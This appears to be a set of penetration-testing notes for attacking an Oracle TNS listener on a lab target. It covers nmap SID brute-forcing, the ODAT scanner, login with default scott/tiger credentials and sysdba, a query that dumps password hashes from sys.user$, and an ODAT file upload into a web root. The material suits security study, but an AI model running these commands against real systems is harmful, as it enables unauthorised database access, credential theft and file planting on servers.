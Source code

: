 # Oracle Transparent Network Substrate

## Footprinting The Service

### Tool Setup

{% code overflow="wrap" %}
```
sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycrypto passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Before we can enumerate the TNS listener and interact with it, we need to download a few packages and tools</p></figcaption></figure>

### Nmap

{% code overflow="wrap" %}
```
sudo nmap -p1521 -sV 10.129.204.235 --open
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Nmap - SID Bruteforcing

{% code overflow="wrap" %}
```
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **ODAT**

{% code overflow="wrap" %}
```
./odat.py all -s 10.129.204.235
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption><p> the <code>odat.py</code> tool to perform a variety of scans like retrieve database names, versions, running processes, user accounts, vulnerabilities, misconfigurations etc.</p></figcaption></figure>

### **SQLplus - Log In**

{% code overflow="wrap" %}
```
sqlplus scott/tiger@10.129.204.235/XE
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption><p>You can also attempt to append "as sysdba" for higher privileges</p></figcaption></figure>

If you come across the following error <mark style="color:red;">sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory</mark> execute the following command

{% code overflow="wrap" %}
```
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```
{% endcode %}

### Oracle RDBMS - Interaction

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Oracle RDBMS - Database Enumeration**

{% code overflow="wrap" %}
```
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption><p>Try using the valid account to log in as the System Database Admin (<code>sysdba</code>), giving higher privileges. This is possible when the user has the appropriate privileges typically granted by the database administrator.</p></figcaption></figure>

### **Oracle RDBMS - Extract Password Hashes**

{% code overflow="wrap" %}
```
select name, password from sys.user$;
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Oracle RDBMS - File Upload**

| OS      | Path                 |
| ------- | -------------------- |
| Linux   | `/var/www/html`      |
| Windows | `C:\inetpub\wwwroot` |

{% code overflow="wrap" %}
```
echo "Oracle File Upload Test" > testing.txt
```
{% endcode %}

{% code overflow="wrap" %}
```
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
curl -X GET http://10.129.204.235/testing.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

